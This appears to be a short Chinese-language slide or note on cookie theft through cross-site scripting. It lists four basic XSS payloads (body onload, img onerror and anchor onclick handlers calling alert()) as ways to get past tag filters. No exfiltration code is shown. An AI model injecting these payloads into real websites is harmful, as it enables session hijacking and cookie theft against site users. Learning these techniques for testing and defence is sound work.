

# Cookies 窃取
尝试使用别的标签来绕过
<body onload=alert('s')>
<img src="" onerror=alert('xss')>
<a href='' onclick=alert('ss')>click</a>
<a href='' onclick=alert(/ss/)>click</a>